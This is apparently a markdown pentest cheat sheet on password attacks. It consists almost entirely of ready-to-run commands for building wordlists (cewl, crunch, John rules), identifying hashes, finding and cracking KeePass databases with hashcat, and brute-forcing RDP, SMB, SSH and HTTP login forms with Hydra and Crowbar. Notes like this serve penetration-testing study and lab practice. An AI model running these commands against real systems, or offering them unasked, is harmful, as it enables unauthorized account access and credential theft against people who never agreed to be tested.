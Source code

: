 # Password Attacks
## Generating Wordlists
### Cewl - Custom Word List generator

-> generating wordlist based on information from a website
```bash
cewl <domain> -w wordlist.txt
```

### Crunch - Wordlist Generator
-> Character Translation  
`@ = Lower case alpha characters`  
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`  

-> Usage
```bash
./crunch <min-len> <max-len> [charset]
```

-> basic examples
```bash
crunch 9 9 -t ,@@@@^%%%
```
```bash
crunch 4 6 0123456789abcdef -o wordlist.txt
```

### John Mutation
-> Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
-> basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`
```bash
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```
https://www.openwall.com/john/doc/RULES.shtml

## Cracking Password
### Identifying Hash Type
```bash
hashid <hash>
```
https://www.tunnelsup.com/hash-analyzer/
https://hashes.com/en/tools/hash_identifier

### Hashing different file types for cracking with 2john
- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c)  

### Password Manager
-> Search KeePass database files
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

-> Hashing the .kdbx file
```bash
keepass2john Database.kdbx > keepass.hash   
```

-> Finding Hash-Mode ID of hashcat
```bash
hashcat --help | grep -i "KeePass"
```

-> Cracking
```bash
hashcat -m 13400 keepass.hash
```

## Brute Force Attacks
### RDP Brute Force - Hydra
```powershell
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP Brute Force - Crowbar
```bash
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB Brute Force - Hydra
```bash
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH Brute Force - Hydra
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form Brute Force - Hydra
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form Brute Force - Hydra
```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login
```
